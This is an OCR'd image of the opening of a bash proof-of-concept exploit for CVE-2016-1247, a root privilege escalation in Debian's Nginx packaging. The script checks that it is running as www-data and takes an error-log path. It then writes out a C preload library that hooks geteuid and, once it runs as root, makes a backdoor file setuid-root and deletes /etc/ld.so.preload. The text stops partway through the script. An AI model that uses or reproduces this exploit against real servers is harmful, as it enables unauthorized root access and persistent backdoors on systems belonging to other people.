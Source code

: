 ```bash
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
_eascii_

echo -e "\033[94m \nNginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) \nnginxed-root.sh (ver. 1.0)\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttps://legalhackers.com \033[0m"

# Args
if [ $# -lt 1 ]; then
        echo -e "\n[!] Exploit usage: \n\n$0 path_to_error.log \n"
        echo -e "It seems that this server uses: `ps aux | grep nginx | awk -F'log-error=' '{ print $2 }' | cut -d' ' -f1 | grep '/'`\n"
        exit 3
fi

# Priv check

echo -e "\n[+] Starting the exploit as: \n\033[94m`id`\033[0m"
id | grep -q www-data
if [ $? -ne 0 ]; then
        echo -e "\n[!] You need to execute the exploit as www-data user! Exiting.\n"
        exit 3
fi

# Set target paths
ERRORLOG="$1"
if [ ! -f $ERRORLOG ]; then
        echo -e "\n[!] The specified Nginx error log ($ERRORLOG) doesn't exist. Try again.\n"
        exit 3
fi

# [ Exploitation ]

trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
       #include <sys/types.h>
       #include <sys/stat.h>
       #include <fcntl.h>

uid_t geteuid(void) {
        static uid_t  (*old_geteuid)();
        old_geteuid = dlsym(RTLD_NEXT, "geteuid");
        if ( old_geteuid() == 0 ) {
                chown("$BACKDOORPATH", 0, 0);
                chmod("$BACKDOORPATH", 04777);
                unlink("/etc/ld.so.preload");
        }
        return old_geteuid();
}
```